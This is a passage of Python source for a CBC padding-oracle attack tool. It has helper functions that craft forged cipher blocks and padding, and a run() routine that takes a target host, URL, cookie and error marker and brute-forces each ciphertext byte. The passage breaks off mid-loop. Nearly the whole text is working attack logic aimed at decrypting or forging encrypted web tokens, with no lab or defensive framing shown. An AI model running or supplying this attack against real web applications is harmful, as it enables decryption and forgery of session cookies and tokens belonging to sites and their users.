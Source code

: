 ```
            s.close()
        except:
            pass
# ===== END CUSTOM ORACLE =====

def split_len(seq, length):
    return [seq[i:i+length] for i in range(0, len(seq), length)]

def block_search_byte(size_block, i, pos, l):
    hex_char = hex(pos).split("0x")[1]
    return (
        "00" * (size_block - (i + 1))
        + ("0" if len(hex_char) % 2 != 0 else "")
        + hex_char
        + "".join(l)
    )

def block_padding(size_block, i):
    l = []
    for t in range(0, i + 1):
        l.append(
            ("0" if len(hex(i + 1).split("0x")[1]) % 2 != 0 else "")
            + (hex(i + 1).split("0x")[1])
        )
    return "00" * (size_block - (i + 1)) + "".join(l)

def hex_xor(s1, s2):
    b = bytearray()
    for c1, c2 in zip(bytes.fromhex(s1), cycle(bytes.fromhex(s2))):
        b.append(c1 ^ c2)
    return b.hex()

def run(cipher, size_block, host, url, cookie, method, post, error):
    cipher = cipher.upper()
    found = False
    valide_value = []
    result = []
    len_block = size_block * 2
    cipher_block = split_len(cipher, len_block)

    if len(cipher_block) == 1:
        print("[-] Abort there is only one block")
        sys.exit()

    # for each cipher_block
    for block in reversed(range(1, len(cipher_block))):
        if len(cipher_block[block]) != len_block:
            print("[-] Abort length block doesn't match the size_block")
            break
        print("[+] Search value block : ", block, "\n")

        # for each byte of the block
        for i in range(0, size_block):
            # test each byte max 255
            for ct_pos in range(0, 256):
                # 1 xor 1 = 0 or valid padding need to be checked
                if ct_pos != i + 1 or (
                    len(valide_value) > 0 and int(valide_value[-1], 16) == ct_pos
                ):

                    bk = block_search_byte(size_block, i, ct_pos, valide_value)
                    bp = cipher_block[block - 1]
                    bc = block_padding(size_block, i)
```